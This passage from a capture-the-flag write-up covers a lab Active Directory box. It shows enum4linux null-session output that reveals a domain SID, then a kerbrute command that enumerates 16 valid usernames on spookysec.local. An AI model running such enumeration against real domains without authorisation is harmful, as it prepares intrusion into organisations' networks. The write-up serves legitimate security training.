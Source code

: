 ```sh 
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 451.
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 359.
[+] Server 10.10.124.175 allows sessions using username '', password ''
[+] Got domain/workgroup name: 

 ============================================ 
|    Getting domain SID for 10.10.124.175    |
 ============================================ 
Domain Name: THM-AD
Domain Sid: S-1-5-21-3591857110-2884097990-301047963
[+] Host is part of a domain (not a workgroup)
enum4linux complete on Tue Nov  3 21:10:57 2020
```

# Enumerating the DC Pt2

The next step is to use the program "kerbrute" to get the username of the Domain. 

```sh 
┌──(fr3akazo1d💀fr3ak0ut)-[/git/kerbrute]
└─$ ./kerbrute_linux_amd64 userenum -d spookysec.local --dc spookysec.local '/home/fr3akazo1d/Pen-Testing/THM/Boxes/AttacktriveDirectory/user.txt'

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 11/03/20 - Ronnie Flathers @ropnop

2020/11/03 21:28:23 >  Using KDC(s):
2020/11/03 21:28:23 >  	spookysec.local:88

2020/11/03 21:28:23 >  [+] VALID USERNAME:	 j***s@spookysec.local
2020/11/03 21:28:25 >  [+] VALID USERNAME:	 s*******n@spookysec.local
2020/11/03 21:28:26 >  [+] VALID USERNAME:	 J***s@spookysec.local
2020/11/03 21:28:26 >  [+] VALID USERNAME:	 r***n@spookysec.local
2020/11/03 21:28:32 >  [+] VALID USERNAME:	 d******r@spookysec.local
2020/11/03 21:28:35 >  [+] VALID USERNAME:	 a***********r@spookysec.local
2020/11/03 21:28:42 >  [+] VALID USERNAME:	 b****p@spookysec.local
2020/11/03 21:28:46 >  [+] VALID USERNAME:	 p*****x@spookysec.local
2020/11/03 21:29:07 >  [+] VALID USERNAME:	 J***S@spookysec.local
2020/11/03 21:29:15 >  [+] VALID USERNAME:	 R***n@spookysec.local
2020/11/03 21:29:57 >  [+] VALID USERNAME:	 A***********r@spookysec.local
2020/11/03 21:31:25 >  [+] VALID USERNAME:	 D******r@spookysec.local
2020/11/03 21:31:52 >  [+] VALID USERNAME:	 P*****x@spookysec.local
2020/11/03 21:33:24 >  [+] VALID USERNAME:	 D******R@spookysec.local
2020/11/03 21:33:51 >  [+] VALID USERNAME:	 o*i@spookysec.local
2020/11/03 21:34:41 >  [+] VALID USERNAME:	 R***N@spookysec.local
2020/11/03 21:39:46 >  Done! Tested 100000 usernames (16 valid) in 682.522 seconds

```
